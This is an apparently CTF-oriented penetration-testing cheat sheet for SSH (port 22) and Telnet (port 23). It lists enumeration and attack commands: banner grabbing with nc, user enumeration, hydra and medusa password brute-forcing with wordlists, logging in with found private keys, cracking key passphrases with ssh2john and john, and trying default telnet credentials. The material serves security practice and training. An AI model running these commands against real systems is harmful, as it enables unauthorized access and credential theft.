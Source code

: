 
## 🔐 Port 22 - SSH
**Service:** Secure Shell  
**Common vulns:** Weak passwords, leaked keys, outdated versions

### Enumeration
```bash
# Version detection
nc $TARGET 22

# User enumeration (if vulnerable)
python ssh_user_enum.py $TARGET root admin user
```

### Exploitation
```bash
# Brute force (last resort)
hydra -l admin -P /usr/share/wordlists/rockyou.txt ssh://$TARGET
medusa -h $TARGET -u root -P passwords.txt -M ssh

# Use found private key
chmod 600 id_rsa
ssh -i id_rsa user@$TARGET

# If key has passphrase
ssh2john id_rsa > hash.txt
john --wordlist=rockyou.txt hash.txt
```

### CTF Tips
- Check HTTP/FTP for SSH keys first
- Username often in `/home/` directory names
- Try password = username

---

## 📞 Port 23 - Telnet
**Service:** Unencrypted remote access  
**Common vulns:** Default credentials, no encryption

### Exploitation
```bash
telnet $TARGET
# Try: admin:admin, root:root, admin:password

# Brute force
hydra -l admin -P passwords.txt telnet://$TARGET
```

---
